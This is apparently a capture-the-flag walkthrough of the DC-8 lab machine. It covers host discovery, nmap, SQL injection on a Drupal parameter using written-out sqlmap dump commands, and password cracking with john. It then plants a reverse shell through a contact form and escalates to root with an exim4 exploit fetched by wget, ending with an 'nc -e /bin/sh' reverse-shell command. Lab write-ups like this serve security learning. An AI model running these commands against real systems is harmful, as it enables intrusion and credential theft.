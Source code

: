 

### **Netdiscover**

![netdiscover](images/dc8/netdiscover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.104 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/dc8/nmap.png)

We found some services <u>SSH</u>, <u>HTTP</u>

------

### Solution

![index](images/dc8/index.png)

![robots](images/dc8/robots.png)

This was a drupal web,  nothing found. We use dirsearch to scan the directory. most of them are no permission.

![LFI](images/dc8/LFI.png)

At the same, We found http://192.168.0.104/node/2, http://192.168.0.104/?nid=2 has the same return page.

Maybe exists a file include inject.

So i use a /ect/passwd directory to bypass, But it's error showing that we should use sql blind attack.

So we use sqlmap to blind the Get Http requests.

![db](images/dc8/db.png)

brute databases==>`sqlmap --dbs -u http://192.168.0.104/?nid=1 --batch`

![table](images/dc8/table.png)

brute tables==>`sqlmap -D d7db --tables -u http://192.168.0.104/?nid=1 --batch`

![column](images/dc8/column.png)

brute columns ==> `sqlmap -D d7db -T user --columns  http://192.168.0.104/?nid=1 --batch`

![mysql_passwd](images/dc8/mysql_passwd.png)

dumps columns ==>`sqlmap -D d7db -T users -C name,pass -u http://192.168.0.104/?nid=1 --batch --dump`

![john](images/dc8/john.png)

So we use **john** to brute force the password,  we Got the password of john, the password is **turtle**

So let's login in  http://192.168.0.104/user/login withe the john user.

![user_john](images/dc8/user_john.png)

Successfully!!!, Now let's find wether exists template inject somewhere. 

![template_dir](images/dc8/template_dir.png)

![shellcode](images/dc8/shellcode.png)

We found that the form settings can overwrite our shellcode, when contact , we could reverse shell.

![shell0](images/dc8/shell0.png)

![www-data](images/dc8/www-data.png)

Now we have the privilege of the user **www-data**, we should escalate privilege to root.

So we use find anything which owns suid permission.

![find](images/dc8/find.png)

We found **/usr/sbin/exim4**,  this the key for us to be root.

At first, i didn't know how to use the is command, after a while, i decided to search wether has a exploit of this commnd.

We use `uname -a` , found the system is based on debian, So we use dpkg -l to show his version.

![exim4](images/dc8/exim4.png)

![cve](images/dc8/cve.png)

We downloaded this exploit script and wget from my apache server.

![exploit](images/dc8/exploit.png)

Now we `nc -e /bin/sh 192.168.0.105 1337` to reverse shell of root. Then we can catch the flag.

![root](images/dc8/root.png)

Successfully!!!

------

**That' all , Thanks for your watching**